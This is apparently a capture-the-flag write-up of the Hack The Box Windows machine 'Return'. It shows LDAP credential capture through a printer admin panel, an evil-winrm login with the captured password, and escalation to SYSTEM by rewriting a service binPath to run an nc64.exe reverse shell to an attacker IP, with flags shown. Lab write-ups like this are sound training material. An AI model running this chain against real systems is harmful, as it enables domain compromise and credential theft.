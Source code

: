 ```yaml
---
title : "Hack The Box - Return"
author: fsociety
date: 2024-04-25 11:26:00 +0800
categories: [Hackthebox, Hackthebox-Windows, Hackthebox-Easy]
tags: [LDAP Bind,evil-winrm,Abuse Server Operators]
---
```


![](../assets/post_img/Snipaste_2024-04-25_17-05-57.png)

## <span style="color:lightblue">Recon</span>
### <span style="color:lightgreen">Nmap</span>

```
ports=$(nmap -p- --min-rate=1000 -T4 10.129.95.241 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -sC -sV -p$ports 10.129.95.241

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: HTB Printer Admin Panel
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-04-25 09:27:28Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
```

```
域控机器
```

### <span style="color:lightgreen">Website - TCP 80</span>


```
http://10.129.95.241/settings.php
```

![images](../assets/post_img/Snipaste_2024-04-25_17-22-00.png)

```
我们可以尝试更改Server Address 获取对应的凭据信息
```

```
sudo nc -lvnp 389
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::389
Ncat: Listening on 0.0.0.0:389
Ncat: Connection from 10.129.95.241.
Ncat: Connection from 10.129.95.241:52310.
0*`%return\svc-printer�
                       1edFg43012!!
```

```
return\svc-printer:1edFg43012!!
```

### <span style="color:lightgreen">WinRM</span>

```
evil-winrm -i 10.129.95.241 -u svc-printer -p '1edFg43012!!'

*Evil-WinRM* PS C:\Users\svc-printer\Desktop> ls


    Directory: C:\Users\svc-printer\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        4/25/2024   2:22 AM             34 user.txt


*Evil-WinRM* PS C:\Users\svc-printer\Desktop> type "C:/Users/svc-printer/Desktop/user.txt"
a89596456ff28b272c693646935a1353
```

## <span style="color:lightblue">Privilege Escalation</span>
### <span style="color:lightgreen">Abuse Server Operators</span>

```
Server Operators

Members of this group can start/stop system services

Server Operators组可以操作系统服务
```

```
*Evil-WinRM* PS C:\Users\svc-printer\Documents> upload /home/qax/nc64.exe
Info: Uploading /home/qax/nc64.exe to C:\Users\svc-printer\Documents\nc64.exe

                                                             
Data: 60360 bytes of 60360 bytes copied

Info: Upload successful!


*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe config vss binPath="C:\Users\svc-printer\Documents\nc64.exe -e cmd.exe 10.10.14.16 443"
[SC] ChangeServiceConfig SUCCESS
*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe stop vss

*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe start vss
```

```
sudo nc -lvnp 443
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.129.95.241.
Ncat: Connection from 10.129.95.241:64973.
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

```
C:\Windows\system32>type c:\users\administrator\desktop\root.txt
type c:\users\administrator\desktop\root.txt
1e89d05fc5cf3fce485c6357983b57f9
```

```
sc.exe config VSS binpath="C:\windows\system32\cmd.exe /c C:\programdata\nc64.exe -e cmd 10.10.14.16 443"
```

![image](../assets/post_img/Snipaste_2024-04-25_17-44-09.png)